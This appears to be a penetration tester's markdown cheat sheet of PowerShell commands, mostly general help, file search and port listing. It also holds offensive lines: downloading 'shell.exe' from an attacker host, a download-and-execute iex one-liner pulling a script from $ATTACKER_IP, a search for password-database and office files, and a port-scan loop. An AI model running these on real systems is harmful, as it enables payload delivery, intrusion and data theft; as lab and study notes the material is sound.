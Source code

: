 # Powershell

Discoverability of scripting languages like Powershell or shell is poor by design.
These notes are for the weary shell-user who finds themselves stuck in a powershell (possibly on a remote machine).
Powershell cmdlets follow the naming pattern of `Verb-Noun`.

## Useful meta commands

Cmdlet for listing other available cmdlets:
```
Get-Command
```

It can take inputs with wildcards.

Once you find the cmdlet you want to use, you can investigate it with:

```
Get-Help ${cmdlet}
```

Now a man-page like output should help discovering how to use it.

Get `$Path`:
```
$env:path
```


## Downloading a file from a URI

```
Invoke-WebRequest -Uri "http://${ATTACK_IP}:${PORT}/shell.exe" -OutFile "shell.exe"
```
or

```
iwr -uri "http://${ATTACK_IP}:${PORT}/shell.exe" -OutFile "shell.exe"
```

## Useful commands cmdlets for searching and enumerating

searching, similar to `find`:
```
Get-ChildItem -Recurse -Filter "filename*"
```
Remeber that you can ignore errors with `-ErrorAction SilentlyContinue` for all these commands.

If we want all files of a specific filetype, we can do:

```
Get-ChildItem -Include *.txt,*.kdbx,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

You can `cat` with:

```
Get-Content -Path $file
```


Base64 decode:

```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($exampleVar))
```

Open ports:

```
Get-NetTCPConnection
```

Search for only listening ports:
```
Get-NetTCPConnection | Where-Object -Property State -EQ Listen
```

Search for file containing a specific text:

```
Get-ChildItem -Recurse -Path "C:\" | Select-String "${someVar}" -List | Select Path
```

We can use the following trick to exclude paths we don't care about:
```
Get-ChildItem -Recurse -Path "C:\" | Select-String "${someVar}" -List | Select Path | Where-Object { $_ -notmatch ".Net" -and $_ -notmatch "Windows" }
```


If you have a search you know will output the file you want, you can pipe it into `Select-Object`:

```
Get-ChildItem -Path "C:\" -Recurse -Filter "*filter*" | Select-Object -First 1 | Get-Content
```

This will cat the contents of the first file the `Get-ChildItem` cmdlet outputs.

## Open powershell terminal with other credentials:

Note that this requires a full powershell sessions through RDP.
It does not work in a reverse shell.

With admin privileges:
```
Start-Process "powershell" -Credential "Administrat0r" -ArgumentList "Start-Process powershell -Verb runAs" -WorkingDirectory 'C:\Users'
```
Without admin privileges:
```
Start-Process "powershell" -Credential "Administrat0r" -ArgumentList "Start-Process powershell" -WorkingDirectory 'C:\Users'
```


Note you need to kill the parent shell for this to work.
There are probably smarter ways.


## Enumerating open ports with Powershell

(Also referenced in [enumeration.md](./../enumeration.md)
```
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$RHOST", $_)) " $_/tcp open"} 2>$null
```


## Example of pipes with Where-Object and ForEach-Object
```
Get-LocalGroupMember Users | Where-Object {$_.ObjectClass -Eq "User"} | ForEach-Object -Process {Get-LocalUser $_.Name.split('\')[1]}
```

## Download and Execute in one line

If you want to download and execute a script in one go, do:

```
iex ((New-Object System.Net.WebClient).DownloadString('http://$ATTACKER_IP/SomePowershell.ps1'))
```

